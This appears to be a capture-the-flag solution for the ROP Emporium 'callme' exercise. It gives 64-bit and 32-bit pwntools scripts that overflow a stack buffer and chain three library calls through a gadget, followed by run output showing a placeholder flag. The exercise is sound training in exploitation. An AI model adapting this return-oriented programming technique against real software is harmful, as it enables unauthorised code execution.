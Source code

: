 exploit.py:
```python
from pwn import *

e = ELF('./callme')
p = process(['./callme'], env = {'LD_PRELOAD':'./libcallme.so'})

pppr = e.symbols['usefulGadgets']

payload = 'a'*0x28
payload += p64(pppr) + p64(1) + p64(2) + p64(3)
payload += p64(e.plt['callme_one'])
payload += p64(pppr) + p64(1) + p64(2) + p64(3)
payload += p64(e.plt['callme_two'])
payload += p64(pppr) + p64(1) + p64(2) + p64(3)
payload += p64(e.plt['callme_three'])

p.recvuntil('> ')
p.sendline(payload)
p.interactive()
```
exploit32.py:
```python
from pwn import *

e = ELF('./callme32')
p = process(['./callme32'], env = {'LD_PRELOAD':'./libcallme32.so'})

pppr = 0x8048576

payload = 'a'*0x2c
payload += p32(e.plt['callme_one']) + p32(pppr) + p32(1) + p32(2) + p32(3)
payload += p32(e.plt['callme_two']) + p32(pppr) + p32(1) + p32(2) + p32(3)
payload += p32(e.plt['callme_three']) + p32(pppr) + p32(1) + p32(2) + p32(3)

p.recvuntil('> ')
p.sendline(payload)
p.interactive()
```
출력:
```python
junheah@ubuntu:~/ropemp/callme$ python exp.py
[*] '/home/junheah/ropemp/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
[+] Starting local process './callme': pid 7542
[*] Switching to interactive mode
[*] Process './callme' stopped with exit code 0 (pid 7542)
ROPE{a_placeholder_32byte_flag!}[*] Got EOF while reading in interactive
```
